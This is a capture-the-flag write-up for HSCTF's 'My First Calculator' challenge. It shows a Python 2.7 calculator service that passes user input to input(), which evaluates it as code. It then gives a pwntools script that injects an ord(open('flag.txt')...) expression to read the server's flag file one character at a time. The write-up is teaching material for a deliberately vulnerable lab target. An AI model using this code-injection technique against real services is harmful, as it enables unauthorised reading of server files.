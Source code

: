 # My First Calculator

## Description

I'm really new to python. Please don't break my calculator!

nc misc.hsctf.com 7001

There is a flag.txt on the server.

## Solution

We're given python source code for a calculator app running on the server.

```py
#!/usr/bin/env python2.7

try:
    print("Welcome to my calculator!")
    print("You can add, subtract, multiply and divide some numbers")

    print("")

    first = int(input("First number: "))
    second = int(input("Second number: "))

    operation = str(raw_input("Operation (+ - * /): "))

    if first != 1 or second != 1:
        print("")
        print("Sorry, only the number 1 is supported")

    if first == 1 and second == 1 and operation == "+":
        print("1 + 1 = 2")
    if first == 1 and second == 1 and operation == "-":
        print("1 - 1 = 0")
    if first == 1 and second == 1 and operation == "*":
        print("1 * 1 = 1")
    if first == 1 and second == 1 and operation == "/":
        print("1 / 1 = 1")
    else:
        print(first + second)
except ValueError:
    pass
```

Notably, the script is explicitly meant to run in python 2.7 and uses the vulnerable ```input()``` function.
We can use this to execute arbitrary code on the server, as long as it returns a valid integer.

This will not satisfy the condition that both inputs are 1, but that doesnt matter as it will default to printing the sum of our arguments.
We can simply enter 0 as our second argument to have it print the value of the first argument alone.

We're told in the description that there is a flag file on the server.
We can write a script to read this file character by character, using the ```ord()``` function to convert these to integers.
From these values, we can reconstruct the flag, one character at a time.

## Exploit Script

```py
#!/usr/bin/python
from pwn import *

flag = ''
i = 0
win = False

while not win:
    payload = 'ord(open("flag.txt").read()[' + str(i) + '])'
    conn = remote('misc.hsctf.com', 7001)
    conn.recvuntil(':')
    conn.send(payload + '\n')
    conn.recvuntil(':')
    conn.send("0\n")
    conn.recvuntil(':')
    conn.send("+\n")
    conn.recvuntil('supported\n')
    character = chr(int(conn.recvline().decode()))
    conn.close()
    flag += character
    if character == '}':
        win = True
    else:
        i += 1

f = open("flag.txt", "w")
f.write(flag)
f.close()
```

## Flag

```flag{please_use_python3}```

